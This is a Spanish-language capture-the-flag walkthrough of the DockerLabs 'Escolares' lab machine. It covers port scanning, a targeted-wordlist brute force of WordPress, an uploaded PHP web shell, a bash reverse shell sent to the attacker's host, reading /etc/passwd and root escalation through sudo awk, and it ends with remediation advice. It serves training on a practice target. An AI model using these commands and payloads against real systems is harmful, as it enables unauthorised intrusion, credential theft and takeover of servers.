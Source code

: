 # Máquina Escolares

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/ZXckGSob#QBn80M3tFNTrKCJwZ1lIh-9Rafx5sdlG3lyCT9FPYes)

![imagen](https://github.com/user-attachments/assets/c0bc899e-e4e6-4ae1-8223-fa7745b5fa1c)

- **Nombre de la Máquina:** Escolares
- **Sistema Operativo:** Linux
- **Dificultad:** Easy
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - **Exposición de información sensible:** La página `/profesores.html` expone nombres de usuario y otra información útil para un ataque de fuerza bruta.
  - **Fuerza bruta en WordPress:** Uso de un diccionario generado a partir de la información expuesta para obtener la contraseña del usuario administrador de WordPress.
  - **Ejecución remota de comandos en WordPress:** Subida de un archivo PHP malicioso a través de `wp file manager` para ejecutar comandos en el servidor.
- **Escalada de Privilegios:**
  - **Usuario luisillo:** Acceso a la cuenta de `luisillo` mediante la contraseña encontrada en el archivo `secret.txt`.
  - **Usuario root:** Uso del binario `awk` con privilegios sudo para ejecutar comandos como root y obtener una shell de root.

## Reconocimiento y Enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina objetivo para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/1ebb296c-0474-4ec6-8f27-1547c073b7f4)

El escaneo muestra que los puertos 22 y 80 están abiertos. Realizamos un análisis más detallado para determinar qué servicios se están ejecutándose en estos puertos.

```bash
sudo nmap -p 22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/user-attachments/assets/97b16cf8-e100-4e82-8dc0-725b46eab862)

### Puerto 80 HTTP
Lanzamos un `whatweb` para ver qué servicios corren en el puerto HTTP.

![imagen](https://github.com/user-attachments/assets/8c088ecf-2b06-4f75-95ab-d73ba3979d98)

Parece ser una página web de una universidad.

![imagen](https://github.com/user-attachments/assets/595244fe-258b-4f0c-8035-2338295422b2)

Al ver el código fuente de la página, encontramos un directorio interesante `/profesores.html`.

![imagen](https://github.com/user-attachments/assets/f0e7d223-f770-4652-b49c-030bbe768253)

Aparecen los nombres de varios profesores, incluido el administrador de WordPress, junto a su email y fecha de nacimiento, toda información es buena y necesaria.

![imagen](https://github.com/user-attachments/assets/6adb867e-ce23-4417-a052-201229b85b8d)

Hacemos una búsqueda de directorios usando gobuster.

```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirb/common.txt -t 150
```

![imagen](https://github.com/user-attachments/assets/9ccc2058-55fc-4025-b69a-b9c76346e732)

Confirmamos que estamos ante un sitio WordPress.

![imagen](https://github.com/user-attachments/assets/01f5c629-d0b9-450e-af5f-6bb00ea8a019)

Vamos a revisar el directorio `/wp-login.php`.

![imagen](https://github.com/user-attachments/assets/b4572c01-b835-4c53-9fa7-c263ce993754)

La web se ve mal porque está intentando cargar los assets desde una URL diferente a la que tenemos. Si miramos el código fuente, veremos el host que debemos agregar al archivo `/etc/hosts` de nuestro sistema.

![imagen](https://github.com/user-attachments/assets/03a46dc7-997e-438f-8d4f-60471d4baf37)

```bash
nano /etc/hosts
127.0.0.1       localhost
127.0.1.1       t0rr4l.home     t0rr4l
172.17.0.2      escolares.dl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Al recargar la página, ya se vería normal y sin fallos.

![imagen](https://github.com/user-attachments/assets/b0a2bca3-83d7-43d2-b1f1-5f57aa3e0655)

Probamos con el nombre `luisillo`, y nos dice que la contraseña no es correcta, por lo que sabemos que ese nombre de usuario es válido para probar fuerza bruta. Primero probé a usar el rockyou, pero no conseguí la contraseña, así que opté por hacer un diccionario con los datos que salían de **luisillo**.

![imagen](https://github.com/user-attachments/assets/42a8c7d7-479a-4c12-b109-f3b0e990695e)

```bash
cupp -i
```

![imagen](https://github.com/user-attachments/assets/6cb93b87-dc47-485d-b793-ad3155bdeea8)

Con este script habremos creado un diccionario con 1819 contraseñas diferentes a partir de sus datos.

Probaremos a hacer fuerza bruta con wpscan. Nos encuentra una contraseña válida: **Luis1981**

```bash
wpscan --url "http://172.17.0.2/" -P luis.txt
```

![imagen](https://github.com/user-attachments/assets/49465880-ef7d-4690-86ab-6a5f497be9cb)

Probamos la contraseña que nos reportó la herramienta y funciona, tenemos acceso a la administración del WordPress.

![imagen](https://github.com/user-attachments/assets/170b7dd0-a815-4935-ab54-cce46e08429f)

Tendremos acceso al `wp file manager` y desde ahí podremos subir un archivo PHP, el cual podremos utilizar para ejecutar comandos a nivel de sistema.

```php
<?php
  system($_GET["cmd"]);
?>
```

![imagen](https://github.com/user-attachments/assets/1e0596f1-1cf1-431b-9312-95afaf34aee2)

Una vez subido el archivo, lo abrimos y podremos ejecutar comandos con el parámetro cmd.

```url
http://escolares.dl/wordpress/wp-content/themes/twentytwentytwo/cmd.php?cmd=whoami
```

![imagen](https://github.com/user-attachments/assets/7388d758-3ca8-44bc-a602-67de20e8e2f5)

Podemos leer también el archivo `/etc/passwd`.

![imagen](https://github.com/user-attachments/assets/913c5cb4-2786-42f2-bebc-941ca682c29f)

Nos mandaremos una shell ejecutando el siguiente comando en el parámetro cmd.

```bash
bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

Estaremos en escucha con netcat en nuestra máquina atacante y nos llegará la reverse shell.

![imagen](https://github.com/user-attachments/assets/d331abb2-1a6c-4283-84e2-10d7299cb4dd)

## Escalada de privilegios a luisillo
Podemos observar que existe el usuario root y el usuario luisillo.

```bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
```

Observamos un archivo `secret.txt` y si lo imprimimos vemos la contraseña de **luisillo**.

![imagen](https://github.com/user-attachments/assets/2e3194fb-f18c-4fd3-9224-baab7d57aaf5)

  - luisillo
  - luisillopasswordsecret



## Escalada de privilegios a root
Una vez seamos **luisillo**, ejecutaremos un `sudo -l` y vemos que podemos ejecutar el comando `/usr/bin/awk` como usuario **root**.

```bash
sudo -l
Matching Defaults entries for luisillo on 30b3222be84f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 30b3222be84f:
    (ALL) NOPASSWD: /usr/bin/awk
```

En esta [página](https://gtfobins.github.io/gtfobins/awk/#sudo) podemos ver cómo elevar nuestros privilegios haciendo uso de ese binario.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

Lo ejecutaremos y nos convertiremos en root con éxito.

![imagen](https://github.com/user-attachments/assets/21328be9-f4ff-450c-b940-3d2e5cfc9889)

## Remediación
Para prevenir las vulnerabilidades explotadas en esta máquina, se recomiendan las siguientes medidas:
- **Protección de Información Sensible:** Evitar exponer información sensible como nombres de usuario y correos electrónicos en páginas web accesibles públicamente.
- **Fortalecimiento de Contraseñas:** Utilizar contraseñas fuertes y únicas para todas las cuentas. Implementar políticas de contraseñas robustas.
- **Actualización de Software:** Mantener el CMS y todos sus plugins y temas actualizados para protegerse contra vulnerabilidades conocidas.
- **Restricción de Subida de Archivos:** Limitar la capacidad de subir archivos a usuarios de confianza y verificar los archivos subidos.
- **Revisión de Permisos Sudo:** Revisar y restringir los permisos sudo para asegurar que solo los comandos necesarios se puedan ejecutar con privilegios elevados.
